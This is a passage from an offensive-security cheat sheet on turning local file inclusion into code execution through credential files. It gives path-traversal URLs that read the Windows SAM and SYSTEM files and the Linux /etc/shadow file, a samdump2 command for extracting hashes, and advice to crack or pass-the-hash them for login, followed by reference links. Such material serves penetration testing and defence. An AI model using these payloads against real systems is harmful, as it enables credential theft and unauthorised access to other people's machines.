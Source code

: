 ## LFI to RCE via credentials files

This method require high privileges inside the application in order to read the sensitive files.

### Windows version

First extract `sam` and `system` files.

```powershell
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
```

Then extract hashes from these files `samdump2 SYSTEM SAM > hashes.txt`, and crack them with `hashcat/john` or replay them using the Pass The Hash technique.

### Linux version

First extract `/etc/shadow` files.

```powershell
http://example.com/index.php?page=../../../../../../etc/shadow
```

Then crack the hashes inside in order to login via SSH on the machine.

## References

* [OWASP LFI](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
* [HighOn.coffee LFI Cheat](https://highon.coffee/blog/lfi-cheat-sheet/)
* [Turning LFI to RFI](https://l.avala.mp/?p=241)
* [Is PHP vulnerable and under what conditions?](http://0x191unauthorized.blogspot.fr/2015/04/is-php-vulnerable-and-under-what.html)
* [Upgrade from LFI to RCE via PHP Sessions](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/)
* [Local file inclusion tricks](http://devels-playground.blogspot.fr/2007/08/local-file-inclusion-tricks.html)
* [CVV #1: Local File Inclusion - SI9INT](https://medium.com/bugbountywriteup/cvv-1-local-file-inclusion-ebc48e0e479a)
* [Exploiting Blind File Reads / Path Traversal Vulnerabilities on Microsoft Windows Operating Systems - @evisneffos](http://www.soffensive.com/2018/06/exploiting-blind-file-reads-path.html)
* [Baby^H Master PHP 2017 by @orangetw](https://github.com/orangetw/My-CTF-Web-Challenges#babyh-master-php-2017)
* [Чтение файлов => unserialize !](https://rdot.org/forum/showthread.php?t=4379)
* [New PHP Exploitation Technique - 14 Aug 2018 by Dr. Johannes Dahse](https://blog.ripstech.com/2018/new-php-exploitation-technique/)
* [It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It, Sam Thomas](https://github.com/s-n-t/presentations/blob/master/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf)
* [Local file inclusion mini list - Penetrate.io](https://penetrate.io/2014/09/25/local-file-inclusion-mini-list/)
* [CVV #1: Local File Inclusion - @SI9INT - Jun 20, 2018](https://medium.com/bugbountywriteup/cvv-1-local-file-inclusion-ebc48e0e479a)
* [Exploiting Remote File Inclusion (RFI) in PHP application and bypassing remote URL inclusion restriction](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html?m=1)
